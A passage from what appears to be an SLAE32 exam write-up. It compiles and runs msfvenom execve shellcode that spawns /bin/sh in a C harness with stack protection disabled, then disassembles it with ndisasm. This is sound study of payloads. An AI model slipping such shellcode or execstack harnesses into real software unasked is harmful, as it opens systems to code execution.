 ```c
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\x31\xc9\xf7\xe1\xb0\x0b\x68\x2f\x73\x68\x00\x68\x2f\x62"
"\x69\x6e\x89\xe3\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(buf));

	int (*ret)() = (int(*)())buf;

	ret();
}
```

Now we need to compile the program:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/2_exec$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode`. The commands `id` and `ls` are executed in the `/bin/sh` shell.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/2_exec$ ./shellcode 
Shellcode Length:  10
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls
shellcode  shellcode.c
```

#### ndisasm

Now that we know the payload is working, we can start analyzing it with `ndisasm`. With the following command the shellcode of the previous `msfvenom` command is passed to `ndisasm` and the processor mode is 32-bit:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/2_exec$ echo -ne "\x31\xc9\xf7\xe1\xb0\x0b\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  F7E1              mul ecx
00000004  B00B              mov al,0xb
00000006  682F736800        push dword 0x68732f
0000000B  682F62696E        push dword 0x6e69622f
00000010  89E3              mov ebx,esp
00000012  CD80              int 0x80
``` 
